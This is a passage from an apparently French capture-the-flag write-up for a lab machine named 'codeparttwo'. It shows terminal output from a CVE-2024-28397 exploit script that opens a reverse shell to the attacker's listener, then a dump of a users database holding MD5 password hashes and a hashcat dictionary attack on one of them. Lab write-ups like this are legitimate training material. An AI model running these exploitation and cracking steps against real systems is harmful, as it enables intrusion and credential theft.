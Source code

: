 ```bash
─tximista at zaworudo in ~/Téléchargements 25-09-14 - 22:57:14
╰─○ ./cve-2024-28397-remote.py --url http://10.10.11.82:8000/run_code -  
-lhost 10.10.14.89 --lport 1337  
[+] Envoi du payload vers http://10.10.11.82:8000/run_code  
[+] Reverse shell sur 10.10.14.89:1337  
[!] Keep calm & privesc...
[Sep 14, 2025 - 22:57:26 (CEST)] exegol-ctf /workspace # pwncat-cs -lp 1337                                                       
[22:57:33] Welcome to pwncat 🐈!                                                                                                  __main__.py:164
[22:57:45] received connection from 10.10.11.82:50270                                                                                  bind.py:84
[22:57:47] 10.10.11.82:50270: registered new host w/ db                                                                            manager.py:957
(local) pwncat$ back
(remote) app@codeparttwo:/home/app/app$ ls
app.py  instance  __pycache__  requirements.txt  static  templates
(remote) app@codeparttwo:/home/app/app$ 
```

On retrouve un user.db et un hash

```bash

(remote) app@codeparttwo:/home/app/app/instance$ sqlite3 users.db    
SQLite version 3.31.1 2020-01-27 19:55:54  
Enter ".help" for usage hints.  
sqlite> .tables  
code_snippet  user           
sqlite> SELECT * FROM user;  
1|marco|649c9d65a206a75f5abe509fe128bce5  
2|app|a97588c0e2fa3a024876339e27aeb42e  
[Sep 14, 2025 - 23:07:34 (CEST)] exegol-ctf /workspace # haiti 649c9d65a206a75f5abe509fe128bce5  
MD5 [HC: 0] [JtR: raw-md5]
LM [HC: 3000] [JtR: lm]
NTLM [HC: 1000] [JtR: nt]
Domain Cached Credentials (DCC), MS Cache [HC: 1100] [JtR: mscash]
Domain Cached Credentials 2 (DCC2), MS Cache 2 [HC: 2100] [JtR: mscash2]
MD2 [JtR: md2]
MD4 [HC: 900] [JtR: raw-md4]
Haval-128 (4 rounds) [JtR: haval-128-4]
Lotus Notes/Domino 5 [HC: 8600] [JtR: lotus5]
Skype [HC: 23]
IPB 2.x (Invision Power Board) [HC: 2811]
Keyed MD5: RIPv2, OSPF, BGP, SNMPv2 [JtR: net-md5]
RIPEMD-128 [JtR: ripemd-128]
Snefru-128 [JtR: snefru-128]
IPMI 2.0 RAKP HMAC-MD5 [HC: 7350]
DNSSEC (NSEC3) [HC: 8300]
RAdmin v2.x [HC: 9900] [JtR: radmin]
Umbraco HMAC-SHA1 [HC: 24800]
Bitcoin WIF private key (P2PKH), compressed [HC: 28501]
Bitcoin WIF private key (P2PKH), uncompressed [HC: 28502]
WPA-EAPOL-PBKDF2 [HC: 2500]
WPA-EAPOL-PMK [HC: 2501]
[Sep 14, 2025 - 23:07:43 (CEST)] exegol-ctf /workspace # echo '649c9d65a206a75f5abe509fe128bce5' > hash.txt
[Sep 14, 2025 - 23:08:26 (CEST)] exegol-ctf /workspace # hashcat --hash-type 0 --attack-mode 0 hash.txt /opt/lists/rockyou.txt
SNIP
Dictionary cache built:
* Filename..: /opt/lists/rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
```